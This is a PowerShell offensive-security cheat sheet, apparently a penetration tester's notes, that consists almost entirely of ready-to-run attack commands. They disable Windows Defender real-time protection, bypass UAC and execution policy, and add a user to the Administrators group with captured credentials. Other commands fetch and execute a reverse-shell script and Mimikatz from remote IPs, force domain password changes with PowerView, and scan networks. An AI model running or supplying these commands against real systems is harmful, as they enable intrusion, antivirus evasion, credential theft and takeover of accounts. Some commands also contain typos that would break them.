 # Powershell

## Execution Policy

```powershell
powershell -ep bypass
```

## Contrained Language Mode

```powershell
$ExecutionContext.SessionState.LanguageMode

Invoke-Command -Session $ss -ScriptBlock  {$ExecitonContext,SessionState,LanguageMode}

```

## Applocker check

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty rulecollections
```

## AV disable

```powershell
Set-MpPreference -DisableRealTimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

## UAC bypass

```powershell
Invoke-EventVwrBypass -Command "powershell.exe whoami /all"
```

## Impersonate 

```powershell
# PlainText
$Password = ConvertTo-SecureString "<pass>" -AsPlainText -Force; $Credential = New-Object System.Management.Automation.PSCredential("<domain\user>", $Password);
Invoke-Command -ComputerName <target> -ScriptBlock { hostname; whoami } -Credential $Credential

# SecureString
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000028bf2'
$passwd = $securepasswd | ConvertTo-SecureString
$passwd System.Security.SecureString
$creds = New-Object System.Management.Automation.PSCredential ("<domain>\administrator", $passwd)
Invoke-Command -ScriptBlock {net localgroup Administrators <domain>\<user> /add} -ComputerName <target> -Credential $creds
```

## Pivot

```powershell
$secure = New-PSSession -ComputerName <target>
Enter-PSSession -Session $secure
```

## Download & Exec

```powershell
iex (New-Object Net.Webclient).DownloadString("<remote_ps1>")

# Reverse powershell x64
c:\windows\sysnative\windowspowershell\v1.0\powershell.exe IEX(new-object net.webclient).downloadstring('http://10.10.14.12/Invoke-PowerShellTcp.ps1')


$ss = New-PSSession -ComputerName <target>
Enter-PSSession -Session $ss
Invoke-Command -Session $ss -ScriptBlock { iwr -uri http://192.168.56.2/Invoke-Mimikatz.ps1 -OutFile .\Invoke-Mimikatz.ps1 ; . .\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz }
```

---

## Download file

```powershell
iwr -uri <file_url> -Outfile <outfile>
```

---

## Import PS1 module

```powershell
import-module <ps1_file>
. ./<ps1_file>
```
> Full path is sometimes mandatory for Import-Module !


## PS remoting

```powershell
New-PSSession -ComputerName <target.fqdn>
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Session $true

$sess = New-PSSession -ComputerName <target.fqdn>
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```



## Force Change password

```powershell
Import-Module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString '<pwned_user_pass>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain\user>', $SecPassword)
$UserPassword = ConvertTo-SecureString '<target_user_newpass>' -AsPlainText -Force
Set-DomainUserPassword -Identity prodadmin -AccountPassword $UserPassword -Crendential $Cred

Set-ADAccountPassword -Identity <target_user> -NewPassword (ConvertTo-SecureString -AsPlainText '<new_pass>' -Force)
```



## Ping Scans

```powershell
1..255| foreach {Test-Connection -ComputerName "192.168.1.$_"}
```

---

## Port Scan

```powershell
1..1024 | % { echo ((new-object Net.Sockets.TcpClient).Connect("<target>",$_)) "$_ is open" } 2>out-null
```

---
